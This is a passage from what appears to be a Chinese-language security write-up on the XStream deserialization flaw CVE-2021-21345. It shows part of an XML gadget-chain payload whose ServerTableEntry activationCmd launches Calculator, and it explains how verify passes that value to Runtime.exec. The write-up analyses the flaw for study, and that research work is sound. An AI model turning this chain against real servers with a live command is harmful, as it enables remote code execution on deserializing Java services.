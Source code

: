 ```
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>open /Applications/Calculator.app</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

可以看到21345的利用链较之21344的利用链来说变化不大，唯一的不同点在于执行代码的位置不再使用JdbcRowSetImpl去远程加载恶意类来到本地执行恶意代码，而是使用`com.sun.corba.se.impl.activation.ServerTableEntry`类直接在本地执行恶意代码，从利用的复杂度上来和21344做比较的话无疑是简单的不少，既然整个利用链中变化的只有这一处，那就单分析这个类就可以了，将断点直接打在ServerTableEntry类的verify方法上。

![](https://images.seebug.org/content/images/2021/04/06/1617677141000-16.png-w331s)

这里直接将activationCmd属性中的值作为参数调用Runtime.exec来进行执行，而activationCmd在序列化的数据中就已经被我们自定义了值。

![](https://images.seebug.org/content/images/2021/04/06/1617677142000-17.png-w331s)
